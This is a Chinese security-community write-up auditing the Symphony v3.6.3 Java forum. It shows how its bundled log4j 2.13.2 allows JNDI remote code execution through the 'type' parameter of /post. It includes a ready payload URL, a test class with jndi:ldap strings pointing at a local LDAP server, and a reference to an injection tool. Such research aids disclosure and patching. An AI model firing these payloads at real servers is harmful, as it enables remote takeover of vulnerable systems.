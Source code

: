 

# Symphony 代码审计-JAVA - 先知社区

Symphony 代码审计-JAVA

- - -

### 0x00 前言

**产品说明：**  
Symphony 一款用 Java 实现的现代化社区（论坛/BBS/社交网络/博客）平台，实现了面向内容讨论的论坛、面向知识问答的社区、包含了面向用户分享、交友、游戏的社交网络，100% 开源。

**审计源码下载地址：**  
[https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip](https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip)

**环境说明：**  
IntelliJ IDEA 2021.1.3  
JDK1.8.0\_181  
Mysql5.7.26  
SendCloud Mail

### 0x01 环境准备

0.参考官方安装指南 [https://ld246.com/article/1486188905847](https://ld246.com/article/1486188905847)

1.手动新建数据库 b3log\_symphony，按需修改 src/main/resources/local.properties 中的数据库口令配置。  
[![](assets/1708529650-64d95515d13049fcce161200ca5aba62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221101659-4b10a822-d05f-1.png)

2.用户注册需要验证邮箱，所以必须先配置好邮件，按需修改 src/main/resources/symphony.properties 中的邮件配置。我使用 SendCloud，apiUser 和 apiKey 可以去 [https://www.sendcloud.net/](https://www.sendcloud.net/) 注册一个账号获取。  
[![](assets/1708529650-2bee40850766027f261d9d08587e83b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221085421-bfe81ff6-d053-1.png)

3.运行 src/main/java/org/b3log/symphony/Server.java#main() 即可启动项目。

### 0x02 开始审计

#### log4j-core:2.13.2

Log4j2 版本 < 2.15.0-rc2 可以通过 JNDI 协议加载远程代码 RCE。Log4j2 日志级别（调用）大于等于系统设置的 intLevel 的时候，log4j2 才会启用日志打印。在配置文件 src/main/resources/log4j2.xml 中 intLevel 被设置为 Info，通过 <root level="Info"> 设置。</root>

[![](assets/1708529650-3df4632e4ded6b4292532a4673ed3a94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092136-8e841236-d057-1.png)

那么在寻找漏洞利用点时，可以搜索下述 8 种参数可控的 logger。

```plain
package org.b3log.symphony;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class test {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(test.class);
        logger.fatal("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.error("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.warn("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.info("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        //或
        logger.log(Level.FATAL, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.ERROR, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.WARN, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.INFO, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
    }
}
```

在 src/main/java/org/b3log/symphony/processor/ArticleProcessor.java#showAddArticle() 方法里存在一处利用点，当 type 数据不为整型时触发 logger，其中的 type 数据可以通过请求中的 type 参数传入。

[![](assets/1708529650-ee542b96861373fbbac517df5e028bbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221100344-71786dc6-d05d-1.png)

为了代码执行到漏洞点，在构造请求时需要给 tags 参数传入值。

[![](assets/1708529650-4c000d3938c5c3374e290b8fb4c5dfa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221101320-c89fb52c-d05e-1.png)

找到调用该方法的位置，可以看到通过 get 方式请求 /post 即可调用到 showAddArticle()。

[![](assets/1708529650-2a020299695995943176c918f45bbe75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221094421-bbc9713e-d05a-1.png)

在本地开启 JNDI 注入工具 JNDI-Injection-Exploit。

[![](assets/1708529650-c7e60a23fca852b978702d1d7fb66a39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221095625-6b5709d0-d05c-1.png)

注册一个用户并登录，然后测试触发 RCE。  
payload：`/post?type=${jndi:ldap://127.0.0.1:1389/e3ccbf}&tags=1`

[![](assets/1708529650-44c6b2449fa6ea1898711b7a6bcd73ae.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240221095935-dcb86948-d05c-1.gif)

### 参考

symphony 存在命令执行漏洞  
[https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401](https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401)  
从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228 漏洞  
[https://zhuanlan.zhihu.com/p/445834671](https://zhuanlan.zhihu.com/p/445834671)
